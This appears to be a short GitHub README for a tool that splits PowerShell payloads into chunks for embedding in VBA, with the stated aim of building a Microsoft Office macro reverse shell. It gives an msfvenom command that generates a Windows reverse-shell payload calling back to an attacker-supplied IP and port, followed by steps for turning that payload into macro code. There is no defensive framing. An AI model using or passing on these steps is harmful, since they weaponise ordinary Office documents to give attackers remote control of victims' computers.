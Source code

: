 # powershell-script-splitter
Help split powershell payloads into chunks that can be used in vba for Microsoft Office macro reverse shell

1. Use msfvenom to create reverse shell in hta format - `msfvenom -p windows/shell_reverse_tcp lhost=<myip> lport=<lport> -f hta-psh`
 
2. Grab the powershell portion of the output
 
3. Replace the value of ps_script

4. python ps_splitter.py, and get output of the splitted payload
